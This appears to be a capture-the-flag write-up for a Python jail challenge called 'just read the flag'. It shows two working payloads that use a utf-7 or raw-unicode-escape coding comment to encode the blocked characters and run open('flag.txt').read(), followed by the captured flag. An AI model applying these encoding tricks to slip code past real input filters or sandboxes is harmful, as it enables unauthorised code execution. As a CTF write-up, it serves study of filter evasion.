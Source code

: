 # just read the flag [1000 points] (1 solves) (Post-Match Solve)
### utf-8
The magic in this challenge is use comment to specify `utf-7` encoding, allowing us to encode restricted characters using allowed sequences. Then, encode restricted characters like `(`, `)`, `"`, `.` using UTF-7 sequences: 
```
ACg -> (
ACk -> )
ACI -> "
AC4 -> .
```
Full payload:
```bash
Just read the flag.txt! Very simple!
> # -*- coding: utf-7 -*-
> print+ACg-open+ACg-+ACI-flag+AC4-txt+ACI-+ACk-+AC4-read+ACg-+ACk-+ACk-
>
firebird{v3ry_51mpl3_70_r34d_7h3_fl46,_r16h7?}
```
---
### raw‑unicode‑escape codec
Another similar way to solve this challenge would be use Python’s `raw‑unicode‑escape codec`:
```
\u0028 -> (
\u0029 -> )
\u0022 -> "
\u002E -> .
```
Full payload:
```bash
Just read the flag.txt! Very simple!
> #-*-coding:raw-unicode-escape-*-
> print\u0028open\u0028\u0022flag\u002Etxt\u0022\u0029\u002Eread\u0028\u0029\u0029
>
firebird{v3ry_51mpl3_70_r34d_7h3_fl46,_r16h7?}
```